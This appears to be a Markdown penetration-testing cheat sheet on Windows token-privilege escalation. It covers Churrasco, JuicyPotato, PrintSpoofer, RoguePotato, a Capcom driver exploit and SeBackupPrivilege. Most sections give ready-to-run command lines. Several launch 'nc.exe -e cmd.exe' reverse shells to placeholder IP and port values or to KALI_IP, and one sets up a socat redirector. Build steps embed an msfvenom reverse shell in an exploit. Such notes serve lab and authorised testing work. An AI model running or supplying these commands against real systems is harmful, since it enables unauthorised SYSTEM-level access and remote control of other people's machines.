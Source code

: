 # windows token exploits

## Churrasco

**REQUIREMENTS:**

* SeImpersonalPrivilege
* Windows XP/VISTA/2003/2008, Win Server 2003

```bash
# usage
> churrasco.exe -d "nc.exe -e cmd.exe IP PORT"
```

## HotPotato

* Windows 7,8,10, Server 2008, Server 2012

## [JuicyPotato](https://github.com/ohpe/juicy-potato)

**REQUIREMENTS:**

* SeImpersonatePrivilege
* machine is < Windows 10 1809 < Windows Server 2019
* CLSID: [http://ohpe.it/juicy-potato/CLSID/](http://ohpe.it/juicy-potato/CLSID/)
    * Can use [http://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1](http://ohpe.it/juicy-potato/CLSID/GetCLSID.ps1)
* Try: `{03ca98d6-ff5d-49b8-abc6-03dd84127020}`

```bash
> JuicyPotato.exe -l 1337 -p "c:\windows\system32\cmd.exe" -a "/c PATH\nc.exe -e cmd.exe IP PORT" -t * -c CLSID
> Juicy.Potato.x86.exe -l 1337 -p "c:\users\public\kashz.exe" -t * -c CLSID

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
```

## [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0)

**REQUIREMENTS:**

* SeImpersonatePrivilege
* Win10, Server 2016, Server 2019

```bash
> PrintSpoofer.exe -i -c cmd.exe
> PrintSpoofer.exe -c "nc.exe IP PORT -e cmd.exe"
# -i : interactive
# -c : command to run
```

## [RoguePotato](https://github.com/antonioCoco/RoguePotato)

**REQUIREMENTS:**

* SeImpersonatePrivilege
* machine is >= Windows 10 1809 & Windows Server 2019

```bash
# socat redirector for OXID resolving, must use 135
$ socat tcp-listen:135,reuseaddr,fork tcp:KALI_IP:9999
> RoguePotato.exe -r KALI_IP -e "PATH\nc.exe IP PORT -e cmd.exe" -l 9999
```

## [SeLoadDriverPrivilege](https://book.hacktricks.xyz/windows/active-directory-methodology/privileged-accounts-and-token-privileges#capcom-sys-driver-exploit)

**REQUIREMENTS:**

* Visual Studio to compile

### Steps:

1. obtain user SID
    1. `Get-ADUser -Identity 'svc-print' | select SID`
    2. `(New-Object System.Security.Principal.NTAccount("svc-print")).Translate([System.Security.Principal.SecurityIdentifier]).value`
2. Clone Repo: [tandasat/ExploitCapcom/](https://github.com/tandasat/ExploitCapcom/)
3. Generate `.exe` msfvenom reverse shell
4. Update path to reverse shell on target line 410 in file `ExploitCapcom.cpp`
5. Set for RELEASE
6. Build Solution
7. run `.\ExploitCapcom.exe`

## SeBackupPrivilege

* [https://github.com/giuliano108/SeBackupPrivilege](https://github.com/giuliano108/SeBackupPrivilege)